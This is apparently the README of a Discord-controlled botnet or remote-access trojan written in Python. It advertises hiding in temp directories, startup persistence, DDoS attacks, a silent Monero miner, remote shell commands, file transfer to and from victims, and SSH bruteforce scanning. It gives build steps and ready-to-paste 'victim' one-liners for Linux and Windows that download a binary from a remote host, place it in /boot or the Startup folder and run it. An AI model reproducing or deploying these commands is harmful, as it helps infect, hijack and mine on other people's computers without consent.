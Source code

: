 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* !webcampic
* !revshell < IP > < PORT >
* !nmap
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap detailed subnet scan)

# Linux build
pyinstaller --onefile Client.py
- After build complete look at this path : dist\Client

# Windows build
pyinstaller --onefile --noconsole Client.py
- After build complete look at this path: dist\Client.exe

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
